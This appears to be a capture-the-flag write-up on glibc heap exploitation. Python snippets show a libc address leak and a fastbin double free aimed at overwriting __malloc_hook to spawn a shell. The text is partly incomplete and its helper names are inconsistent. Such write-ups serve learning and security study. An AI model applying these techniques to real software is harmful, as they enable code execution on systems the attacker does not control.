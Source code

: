 Now that we can interact easily with the functions we can build the actual exploit:

```python
chunk_a = alloc(0x200)
chunk_b = alloc(0x30)
free_chunk(chunk_a)
libc_leak = u64(read_chunk(chunk_a)[:6]+b"\x00\x00")
libc_base = libc_leak - 0x3c4b78

print("[!] libc_leak: %#x" % libc_leak)
print("[!] libc_base: %#x" % libc_base)
```

**part 1: leaking libc address** 

We need to leak `libc`, how do we do it? We allocate a small bin and **free it**, since after the free it will contain an address to a location which is is located into libc:

```python
chunk_a = alloc(0x200)
free(chunk_a)
print(chunk_a, read(chunk_a))    
```

This happens because when we have only one chunk it will contain a random libc address, from which we can compute the address of the base of the libc. To find the offset we will use `vmmap` in gdb.

**part 2: exploiting ~~`__free_hook`~~ `__malloc_hook` to spawn a shell**

```python
chunk_c = alloc(size)
chunk_d = alloc(size)

free_chunk(chunk_c)
free_chunk(chunk_d)
free_chunk(chunk_c)
```

By allocating two chunks and freeing both of them, and again the first one, we will get a loop: `chunk_1` points to `chunk_2` and vice versa. Then

```python
chunk_A = alloc(SIZE)
write_chunk(b'A'*8)

chunk_B = alloc(SIZE)
chunk_C = alloc(SIZE)
# trigger
chunk_D = alloc(SIZE)
```

Will result in `0x4141414141414141` becoming ?. Now we can put the address of `__free_hook ` in its place.

Still the program crashes because the `malloc` realizes that there's a mismatch with the size of the bin. We need to find some bytes not zeroed that are located before our target and try to match the size with those bytes, since they will be our new size for the chunk.
